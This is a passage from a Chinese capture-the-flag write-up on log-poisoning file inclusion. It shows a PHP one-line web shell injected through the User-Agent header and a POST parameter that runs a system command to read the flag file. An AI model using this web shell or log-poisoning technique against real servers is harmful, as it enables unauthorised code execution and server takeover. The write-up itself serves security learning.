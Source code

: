 中间件的日志文件会保存网站的访问记录,比如HTTP请求行,User-Agent,Referer等客户端信息，如果在HTTP请求中插入恶意代码,那么恶意代码就会保存到日志文件中,访问日志文件的时候，日志文件中的恶意代码就会执行,从而造成任意代码执行甚至获取shell。

从日志信息可以看出是 User-Agent 的内容，我们在 User-Agent 里插入一句话木马进行提交 ：

```
<?php @eval($_POST['1']);?>
```

访问日志文件，调用木马：

```
POST:
1=system('tac fl0g.php');
```



#### web81

![image-20250228000721575](assets/image-20250228000721575.png)

上一题日志包含方法即可



#### web82
